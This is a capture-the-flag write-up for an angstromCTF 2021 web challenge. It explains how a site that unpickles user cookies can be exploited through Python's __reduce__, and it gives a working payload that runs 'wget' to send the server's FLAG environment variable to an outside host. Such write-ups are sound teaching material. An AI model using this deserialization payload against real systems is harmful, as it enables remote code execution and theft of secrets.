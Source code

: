 # angstromCTF 2021

* **Category:**  Web
* **Points:** 70pts
* **Author:** [Movement](https://github.com/MovementGH)

## Challenge

>My other pickle challenges seem to be giving you all a hard time, so >here's a simpler one to get you warmed up.
>
>jar.py, pickle.jpg, Dockerfile

If we inspect the source of the website, we see it is unpickling a user's cookie. We can exploit the `__reduce__` method being executed by pickle to run code on the server.

We can see that the flag is stored in the `FLAG` environment variable, so if we execute a bash command we can make a request to our server and look at the logs to see what the url was.

```py
import pickle
import base64

class MMM(object):
    def __reduce__(self):
        import os
        s = "wget https://openbot.ga/$FLAG"
        return (os.popen, (s,))
    

payload = pickle.dumps(MMM())
print(base64.b64encode(payload))
```